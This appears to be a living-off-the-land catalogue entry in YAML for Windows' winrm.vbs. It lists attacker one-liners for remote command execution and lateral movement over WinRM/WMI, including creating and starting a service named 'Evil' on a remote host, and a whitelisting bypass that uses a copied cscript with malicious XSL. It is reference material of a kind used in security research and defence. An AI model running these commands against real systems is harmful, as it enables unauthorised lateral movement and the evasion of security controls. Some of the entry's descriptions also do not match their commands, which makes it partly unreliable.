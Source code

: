 ```yaml
---
name: winrm.vbs
description: Script used for manage Windows RM settings
functions:
  execute:
    - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
      code: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
  awl bypass:
    - description: Execute aribtrary, unsigned code via XSL script/let
      code: %SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Bypass AWL solutions by copying and executing cscript.exe and malicious XSL documents from attacker controlled location.
resources:
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
    - resource: https://redcanary.com/blog/lateral-movement-winrm-wmi/
    - resource: https://twitter.com/bohops/status/994405551751815170
    - resource: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
    - resource: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
fullpath:
    - path: C:\Windows\System32\winrm.vbs
    - path: C:\Windows\SysWOW64\winrm.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

